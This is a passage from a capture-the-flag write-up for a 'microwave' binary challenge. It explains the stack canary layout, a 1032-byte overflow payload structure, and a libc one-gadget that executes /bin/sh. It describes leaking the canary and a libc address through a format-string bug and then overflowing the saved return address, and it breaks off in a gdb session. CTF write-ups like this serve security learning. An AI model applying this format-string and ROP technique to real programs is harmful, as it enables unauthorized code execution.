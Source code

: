 mov rax, qword [rsp + 0x408]    |
xor rax, qword fs:[0x28]        |
jne 0x106a ;[e]</code></pre>
So to overflow the saved RIP, the payload should look like this:
<ul>
        <li>1032 bytes of junk</li>
        <li>8 bytes to replace the canary</li>
        <li><code>1048-1032-8 = 8</code> bytes</li>
        <li>saved RIP</li>
</ul>
<h2 id="the-exploit">The exploit</h2>
Due to the protections, one needs to exploit the binary using ROP. However looking into the provided libc shows that the <em>magic</em> ROP chain is present.
<pre><code>:::
.text:000000000004652C mov     rax, cs:environ_ptr_0
.text:0000000000046533 lea     rdi, aBinSh     ; "/bin/sh"
.text:000000000004653A lea     rsi, [rsp+180h+var_150]
.text:000000000004653F mov     cs:dword_3C06C0, 0
.text:0000000000046549 mov     cs:dword_3C06D0, 0
.text:0000000000046553 mov     rdx, [rax]
.text:0000000000046556 call    execve</code></pre>
So by overwriting the saved-RIP with that address (libc base address + 0x4652C) we get RCE (execve of "/bin/sh").

One needs to leak two elements to be able to exploit:
<ul>
        <li>the canary (to bypass canary protection)</li>
        <li>one address of the libc to retrieve the offset to the magic gadget above</li>
</ul>
These are retrieved using the first vulnerability (string format). Then the second vulnerability (buffer overflow) is used to overflow the stack and overwrite the return address.

The addresses leaked from the string format shows some of them are in the libc (starting with 0x7fff...). We need to know how far from the base address these are in order to retrieve the base address. This base address is then used to refer to the magic gadget.

This is easily done with gdb:
<pre><code>:::bash
$ gdb microwave_61f50dba931bb10ab3089215b2e188f4
gdb-peda$ set environment LD_PRELOAD=./libc.so.6
gdb-peda$ r
Starting program: /tmp/microwave_61f50dba931bb10ab3089215b2e188f4

 --------------------------------------------------------
 |     Welcome to the next generation of MicroWaves!    |
 |                         ***                          |
 | This stylish Microwave with Grill function, includes |
 |      a function that tweets your favourite food!     |
 |                         ***                          |
 --------------------------------------------------------
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food    |
           |  q. Exit                       |
           ----------------------------------
